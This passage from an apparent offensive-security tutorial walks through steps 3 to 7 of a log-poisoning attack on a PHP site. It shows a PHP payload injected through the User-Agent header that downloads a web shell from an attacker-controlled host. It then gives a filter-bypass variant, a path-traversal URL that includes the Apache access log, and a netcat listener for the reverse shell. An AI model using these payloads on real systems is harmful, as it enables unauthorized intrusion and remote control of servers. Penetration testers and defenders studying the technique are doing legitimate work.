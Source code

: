 <br />

### 3. Open Web Server in Local Machine

```sh
python -m http.server 80
```

<br />

### 4. Inject PHP Payload in the User-Agent

Send the GET Request with abusing the User-Agent.  
The payload can be uploaded to the **`/shell.php`** of the target website.

```txt
GET / HTTP/1.1
...
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<attacker-ip>/shell.php'));  ?>
```

If we got some error such as **"500 Internal Server Error"** when the next steps, try to modify the payload a bit. For example,

- Change single quotes (**'**) to double quotes (**"**).
- Change double quotes (**"**) to single quotes (**'**).
- Change **`<?php`** to **`<?pHp`**. (PHP filter bypass)

<br />

### 5. Apply the Injection

Refresh the page **`/index.php?page=../../../../var/log/apache2/access.log`** .

<br />

### 6. Open Listener for Reverse Shell

In you local machine, open the listener.  
You need to specify the port which you set the section 2.

```sh
nc -lvnp 4444
```

<br />

### 7. Gain Access to Shell

Access to **`/shell.php`** of the target website.  
If it goes well, you can get a shell.